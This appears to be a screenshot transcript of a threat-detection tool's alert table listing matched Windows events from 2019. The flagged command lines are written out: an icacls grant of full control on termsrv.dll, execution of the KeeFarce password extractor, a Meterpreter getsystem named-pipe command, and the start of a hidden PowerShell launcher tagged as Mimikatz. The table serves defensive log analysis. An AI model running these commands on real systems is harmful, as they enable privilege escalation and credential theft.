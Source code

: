     │ 2019-03-17 20:20:17 │ 1  │ ‣ File or Folder Permissions             │ "PC04.example.corp"            │ C:\Windows\System32\icacls.exe                     │ "C:\Windows\System32\icacls.exe" C:\Windows\System │
    │                     │    │ Modifications                            │                                │                                                    │ 32\termsrv.dll /grant *S-1-1-0:(F)                 │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-27 18:47:00 │ 1  │ ‣ Execution from Suspicious              │ "IEWIN7"                       │ C:\Users\Public\KeeFarce.exe                       │ KeeFarce.exe                                       │
    │                     │    │ Folder                                   │                                │                                                    │                                                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-29 20:59:21 │ 1  │ ‣ Non Interactive PowerShell             │ "IEWIN7"                       │ C:\Windows\System32\WindowsPowerShell\v1.0\powersh │ "C:\Windows\System32\WindowsPowerShell\v1.0\powers │
    │                     │    │                                          │                                │ ell.exe                                            │ hell.exe" -s -NoLogo -NoProfile                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-29 20:59:22 │ 1  │ ‣ Local Accounts Discovery               │ "IEWIN7"                       │ C:\Windows\System32\whoami.exe                     │ "C:\Windows\system32\whoami.exe" /all              │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-30 07:46:15 │ 1  │ ‣ Meterpreter or Cobalt                  │ "IEWIN7"                       │ C:\Windows\System32\cmd.exe                        │ cmd.exe /c echo msdhch > \\.\pipe\msdhch           │
    │                     │    │ Strike Getsystem Service                 │                                │                                                    │                                                    │
    │                     │    │ Start                                    │                                │                                                    │                                                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-30 20:26:52 │ 1  │ ‣ Mimikatz Command Line                  │ "IEWIN7"                       │ C:\Windows\System32\cmd.exe                        │ C:\Windows\system32\cmd.exe /b /c start /b /min po │
    │                     │    │ ‣ FromBase64String Command               │                                │                                                    │ wershell.exe -nop -w hidden -noni -c "if([IntPtr]: │
    │                     │    │ Line                                     │                                │                                                    │ :Size -eq 4){$b='powershell.exe'}else{$b=$env:wind │
    │                     │    │ ‣ Curl Start Combination                 │                                │                                                    │ ir+'\syswow64\WindowsPowerShell\v1.0\powershell.ex │
    │                     │    │                                          │                                │                                                    │ e'};$s=New-Object System.Diagnostics.ProcessStartI │
    │                     │    │                                          │                                │                                                    │ nfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hid │